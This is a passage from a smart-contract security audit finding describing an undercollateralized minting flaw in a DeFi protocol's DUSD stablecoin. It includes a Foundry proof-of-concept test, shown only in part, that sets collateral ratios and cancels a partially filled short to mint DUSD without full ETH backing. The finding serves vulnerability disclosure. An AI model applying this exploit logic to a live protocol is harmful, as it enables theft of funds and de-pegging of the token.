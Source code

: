 ### Impact

Users or attackers can mint the `DUSD` assets with less `ETH` collateral than required (i.e., free money). This vulnerability is critical and can lead to the de-pegging of the `DUSD` token.

### Proof of Concept

This section provides a coded PoC.

Place the `test_MintFreeDUSD()` and `test_MintBelowPrice()` in the `.test/Shorts.t.sol` file and declare the following `import` directive at the top of the test file: `import {STypes, MTypes, O, SR} from "contracts/libraries/DataTypes.sol";`.

There are two test functions. Execute the commands:

1.  `forge test -vv --mt test_MintFreeDUSD`
2.  `forge test -vv --mt test_MintBelowPrice`

`PoC #1` shows we can mint the free `DUSD` by canceling the `shortOrder` with the `shortOrderCR` < 100%. For `PoC #2`, we can mint the free `DUSD` by canceling the `shortOrder` with the `price` < the current price.

*Note: in the current codebase, the developer has improved how to source more collateral if the `CR` < `initialCR` in the `createLimitShort()`. For this reason, I had to modify the original test functions developed by `nonseodion` to make them work again. Thanks to `nonseodion`.*

```solidity
// Require: import {STypes, MTypes, O, SR} from "contracts/libraries/DataTypes.sol";

// Credit:
//  - Original by: nonseodion
//  - Modified by: serial-coder
function test_MintFreeDUSD() public { // PoC #1
    // Set the initial, penalty and liquidation CRs
    vm.startPrank(owner);
    // Set below 200 to allow shorter provide less than 100% of debt
    diamond.setInitialCR(asset, 170);
    diamond.setPenaltyCR(asset, 120);
    diamond.setLiquidationCR(asset, 150);
    vm.stopPrank();

    // Create a bid to match the short and change its state to SR.PartialFill
    fundLimitBidOpt(1 ether, 0.01 ether, receiver);

    // How to calculate the ethInitial:
    //      minEth = price.mul(minShortErc);
    //      diffCR = initialCR - CR;
    //      ethInitial = minEth.mul(diffCR);
    uint88 ethInitial = 2000 ether;

    // Create the short providing only 70% of the dusd to be minted
    uint88 price = 1 ether;
    depositEth(sender, price.mulU88(5000 ether).mulU88(0.7 ether) + ethInitial);
    uint16[] memory shortHintArray = setShortHintArray();
    MTypes.OrderHint[] memory orderHintArray = diamond.getHintArray(asset, price, O.LimitShort, 1);
    vm.prank(sender);
    diamond.createLimitShort(asset, uint80(price), 5000 ether, orderHintArray, shortHintArray, 70);

    STypes.ShortRecord memory short = getShortRecord(sender, C.SHORT_STARTING_ID);
    // Successfully matches the bid
    assertTrue(short.status == SR.PartialFill);

    // Cancel the short to use up collateral provided and mint dusd
    vm.prank(sender);
    cancelShort(101);

```
